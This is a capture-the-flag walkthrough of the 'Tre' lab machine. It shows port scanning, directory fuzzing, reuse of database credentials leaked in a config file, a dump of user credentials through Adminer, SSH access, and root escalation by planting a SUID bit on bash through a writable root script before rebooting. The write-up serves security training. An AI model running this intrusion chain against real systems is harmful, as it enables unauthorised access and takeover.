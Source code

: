# PG Play - Tre

#### Ip: 192.168.199.84
#### Name: Tre
#### Difficulty: Intermediate
#### Community Rating: hard

----------------------------------------------------------------------

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ sudo nmap -p-  --min-rate 10000 192.168.199.84 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 14:15 CDT
Nmap scan report for 192.168.199.84
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```

Heading to the site on port 80 we find just an image:

site.png

If we kick off some directory fuzzing with Feroxbuster using:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ feroxbuster --url http://192.168.199.84 -q -x php
```

We find some mantisbt directories. The `/config` directory seems especially interesting:

mantis.png

Heading to the page we find an index of files:

index.png

CLicking into `a.txt` we find some DB credentials. 

creds.png

Trying these on the mantisbt page however, we find they are no good there:

nope.png

Looking back at our running Feroxbuster scan, we see it has picked up an `/adminer.php` page:

adminer.png

Lets try the DB credentials we discovered earlier here:

login.png

Nice that worked:

in.png

In the SQL Command area of the page we can begin enumerating the database. After discovering a `mantis_user_table` I ran `select * from mantis_user_table` and discovered some more credentials:

sql.png

Tre's 'realname' looks a bit like a password. Lets try it using SSH:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84                                
The authenticity of host '192.168.199.84 (192.168.199.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.199.84' (ED25519) to the list of known hosts.
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
```

Cool, that worked! We can now grab the local.txt flag:

user_flag.png

### Privilege Escalation

Running `sudo -l` to check Tre's permissions for sudo we see he can execute `shutdown`. Interesting.

```text
tre@tre:$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
``` 

Lets also load up LinPEAS to help out with more enumeration:

transfer.png

Linpeas finds that check-system is writable. We may be able to exploit this

check.png

Double checking the permissions, we see it is owned by root but we have the ability to read and write to it:

```text
tre@tre:/usr/bin$ ls -la check-system
-rw----rw- 1 root root 135 May 12  2020 check-system
```

If we add the SUID bit to `/bin/bash` and then restart the machine using `sudo shutdown` when the machine reboots we should be able to easily get the root flag:

nano.png

We can then shutdown the machine:

```text
tre@tre:/usr/bin$ sudo shutdown -r now
tre@tre:/usr/bin$ Connection to 192.168.199.84 closed by remote host.
Connection to 192.168.199.84 closed
```

Now if we SSH back in again we can run `/usr/bin/bash -p` and we will escalate to a root shell:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 15:39:31 2023 from 192.168.45.246
-bash-5.0$ whoami
tre
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
```

We can now grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------






